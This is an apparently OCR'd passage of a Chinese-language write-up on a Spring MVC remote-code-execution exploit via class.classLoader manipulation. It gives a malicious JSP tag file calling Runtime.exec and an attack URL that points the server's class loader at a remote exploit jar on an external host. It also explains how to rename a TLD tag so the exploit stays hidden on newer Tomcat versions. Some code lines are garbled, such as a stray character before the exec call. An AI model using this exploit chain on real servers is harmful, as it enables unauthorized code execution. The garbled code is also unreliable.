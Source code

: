 ```


1.  `<!-- <form:input/> tag -->`
2.   `<tag-file>`
3.   `<name>input</name>`
4.   `<path>/META-INF/tags/InputTag.tag</path>`
5.   `</tag-file>`


```

/META-INF/tags/InputTag.tag

```


1.  `<%@ tag dynamic-attributes="dynattrs" %>`
2.  `<%`
3.   `j java.lang.Runtime.getRuntime().exec("mkdir /tmp/PWNED");` 
4.  `%>`


```

做出这样的替换后，当开发者在controller中将任何一个对象绑定表单，并且最终展示的jsp内容有下面这些：

```


1.  `<%@ taglib prefix="form" uri="http://www.springframework.org/tags/form"%>` 
2.  `<form:form command>`
3.  `<form:input path="name"/>`
4.  `</form:form>`


```

攻击者访问url,即可触发远程代码执行的效果:

```


1.  `http://inbreak.net/springmvc/testjsp.htm? class.classLoader.URLs[0]=jar:https://inbreak.net/spring-exploit.jar!/`


```

如果服务器大于tomcat6.0.28版本，这样做会把所有的input标签替换掉，导致不能正常显示。需要修改

spring-form.tld，给其中的inputtag改名，name改为inputkxlzx：

```


1.  `<tag>`
2.   `<name>inputkxlzx</name>  //什么名字都行`


```
